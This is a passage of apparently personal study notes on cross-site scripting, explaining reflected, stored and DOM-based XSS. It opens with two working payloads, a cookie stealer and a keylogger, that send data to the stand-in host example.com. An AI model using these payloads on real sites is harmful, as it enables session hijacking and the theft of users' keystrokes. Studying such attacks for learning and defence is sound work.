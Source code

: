 ```
<script>
fetch('https://example.com/log'
+ '?cookie='
+ btoa(document.cookie)
);
</script>
```

Simple keylogger (seems best to combine with cookie stealing, since otherwise it may be hard to tell who’s typing what!):

```
<script>
document.onkeypress = function(e) {
fetch('https://example.com/log'
+ '?keypress='
+ btoa(e.key)
);
}
</script>
```

You can also use XSS to call functions defined on the target website to manipulate user accounts.

# Reflected XSS

This is when user input is echoed back in an unsafe way _without_ being stored somewhere. Places vulnerable to reflected XSS:

- GET parameters
- URL paths
- HTTP headers and POST parameters (though these are difficult to exploit in practice)

An attacker requires user cooperation to launch a reflected XSS attack - someone needs to click on a URL, open up a malicious iframe, etc.

# Stored XSS

Relevant JavaScript is stored server-side (for example, in a comment).

Basically, all places that store user information need to be tested for this. Try bypassing client-side checks with Burp Suite, et al.

- [Using Burp Suite](https://cardboard-iguana.com/notes/burp-suite.html)

# DOM-Based XSS

The difference between this and reflected XSS mostly seems to be that in DOM-based attacks we’re taking advantage of JavaScript code that’s already running on the page - basically looking for interaction points that we can control (such as `window.location.*`) that are then passed to unsafe methods (such as `eval()` or `innerHTML`). The idea is to again use a malicious link, but rather than having the code included directly in the page we’re looking to launder it through an existing (legitimate) JavaScript process.
